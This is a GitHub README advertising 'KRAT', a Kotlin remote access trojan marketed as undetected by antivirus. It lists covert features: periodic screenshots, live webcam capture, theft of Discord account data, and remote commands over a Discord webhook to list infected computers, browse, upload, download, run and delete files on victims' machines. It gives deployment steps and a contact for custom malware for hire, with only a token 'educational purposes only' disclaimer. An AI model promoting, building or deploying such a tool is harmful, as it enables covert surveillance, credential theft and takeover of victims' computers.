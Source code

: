 ### Current status: 🟢[Undetected](https://www.virustotal.com/gui/file/4010a8370f3473ba80ddc202cca45f5d310b344ed2e773989aff003cbea71495?nocache=1)

# KRAT

A RAT (Remote Access Trojan) written in Kotlin.

## Features
- Get periodicals screenshots
- Get real-time webcam
- Sends Discord account information
- On-demand actions
- Everything silently and undetectable by antivirus

## Usage
1. Download the latest release and put it on a server
2. Run the `.jar` file with your Discord webhook link as parameter

```sh
java -jar KRAT.jar <webhook-link>
```

## On-demand actions
- `/computers`: get all infected computers
- `/webcam`: take a webcam capture and send it
- `/screenshot`: take a screenshot and send it
- `/filetree`: sends the victim's file tree
- `/upload <link> <absolute-path>`: upload a file to the victim
- `/download <absolute-path>`: download a file from the victim
- `/run <file>`: execute a file on the victim's computer
- `/delete <absolute-path>`: delete a file from the victim's computer

[//]: # (3. The program will connect to your Discord bot and ask for configuration)

## Stack
- [Kotlin](https://kotlinlang.org/)
- [Ktor](https://ktor.io/) (client-server communication)
- [DiscordKt](https://github.com/DiscordKt/DiscordKt)
- [Kord](https://kordlib.github.io/kord/)
- [webcam-capture](https://github.com/sarxos/webcam-capture)

## Tailored software
Do you need private software customized to your specific needs?

Contact me on Discord : **_@lished_**

## Disclaimer

Educational purposes only.